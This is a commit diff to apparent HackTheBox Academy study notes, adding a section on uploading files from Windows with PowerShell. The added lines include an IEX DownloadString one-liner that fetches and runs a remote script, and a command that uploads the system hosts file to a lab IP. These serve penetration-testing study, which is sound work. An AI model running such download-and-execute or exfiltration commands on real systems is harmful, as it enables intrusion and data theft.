

Before and after one commit to datboyblu3/HackTheBox_Studies, a Markdown page: HTB-Academy/6-File-Transfers/Windows File Transfers Methods.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
PowerShell Downloads and Uploads

````diff
--- a/HTB-Academy/6-File-Transfers/Windows File Transfers Methods.md
+++ b/HTB-Academy/6-File-Transfers/Windows File Transfers Methods.md
@@ -177,4 +177,34 @@ echo "output of first command" | base64 -d > hosts
 md5sum hosts
 ```
 
+
 **PowerShell Web Uploads**
+
+Since PowerShell does not have built-in upload operations will have take the following steps:
+- Use the Invoke-WebRequest or Invoke-RestMethod methods
+- Configure a webserver to accept uploads
+- For the webserver we will use an extended module of the Python HTTP.server module called **uploadserver**
+
+**Install uploadserver**
+```
+pip3 install uploadserver
+```
+
+```
+python3 -m uploadserver
+```
+
+- Use the PSUploads.ps1 script to perform upload operations
+- It accepts two parameters: -File, which specifies the file path. And -Uri, the server path to upload said file
+
+**PowerShell Script to Upload a File to Python Upload Server**
+
+```
+IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
+```
+
+```
+Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
+```
+
+**PowerShell Base64 Web Upload**
````
